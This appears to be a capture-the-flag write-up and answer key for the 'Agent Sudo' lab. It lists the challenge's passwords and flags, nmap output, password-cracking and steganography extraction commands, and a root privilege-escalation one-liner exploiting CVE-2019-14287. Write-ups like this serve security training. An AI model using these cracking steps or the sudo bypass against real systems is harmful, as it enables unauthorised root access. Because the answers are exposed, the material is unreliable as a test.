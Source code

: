 # Agent Sudo
##### Question 1:How many open ports?
Answer
```bash
3
```

##### Question 2:How you redirect yourself to a secret page?
Answer
```bash
user-agent
```

##### Question 3:What is the agent name?
Answer
```bash
chris
```

##### Question 4:FTP password
Answer
```bash
crystal
```

##### Question 5:Zip file password
Answer
```bash
alien
```

##### Question 6:steg password
Answer
```bash
Area51
```

##### Question 7:Who is the other agent (in full name)?
Answer
```bash
james
```

##### Question 8:SSH password
Answer
```bash
hackerrules!
```

##### Question 9:What is the user flag?
Answer
```bash
b03d975e8c92a7c04146cfa7a5a313c7
```

##### Question 10:What is the incident of the photo called?
Answer
```bash
Roswell alien autopsy
```

##### Question 11:CVE number for the escalation
Answer
```bash
CVE-2019-14287
```

##### Question 12:What is the root flag?
Answer
```bash
b53a02f55b57d4439e3341834d70c062
```

##### Question 13:(Bonus) Who is Agent R?
Answer
```bash
DesKel
```

- - - - - - - - - - - - - - - - - - - - - - - -  - - - - - - - - - - 

nmap Scans:
```bash

Nmap scan report for 10.10.83.69
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement

```

```bash

binwalk -e cutie.png
zip2john 8702.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

stegcracker cute-alien.jpg /usr/share/wordlists/rockyou.txt
steghide --extract -sf cute-alien.jpg

```


ssh creds:
james:hackerrules!

```bash

priv esc
sudo -u#-1 /bin/bash

```